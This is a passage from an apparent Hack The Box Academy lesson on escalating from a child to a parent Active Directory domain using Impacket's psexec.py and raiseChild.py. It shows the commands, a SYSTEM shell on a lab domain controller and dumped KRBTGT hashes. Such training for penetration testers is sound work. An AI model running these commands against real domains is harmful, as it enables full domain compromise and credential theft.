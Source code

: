 #### Getting a SYSTEM shell using Impacket's psexec.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:

- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

Finally, if the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.

#### Performing the Attack with raiseChild.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
```